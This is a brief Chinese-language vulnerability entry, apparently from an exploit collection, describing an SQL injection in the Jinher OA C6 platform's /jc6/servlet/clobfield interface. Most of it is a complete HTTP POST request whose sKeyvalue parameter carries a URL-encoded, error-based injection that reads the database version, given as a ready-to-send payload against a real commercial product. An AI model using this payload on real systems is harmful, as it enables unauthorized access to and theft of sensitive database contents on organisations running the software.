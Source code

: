 **漏洞描述：**

金和OA jc6 ljc6/servlet/clobfield接口处存在SQL注入漏洞，攻击者可获取数据中中敏感信息。

**影响版本：**

金和协和管理平台

**Payload：**

```yaml
POST /jc6/servlet/clobfield HTTP/1.1
host:127.0.0.1

key=readClob&sImgname=filename&sTablename=FC_ATTACH&sKeyname=djbh&sKeyvalue=11%27%2F**%2Fand%2F**%2FCONVERT%28int%2C%40%40version%29%3D1%2F**%2Fand%2F**%2F%27%27%3D%27
```

---

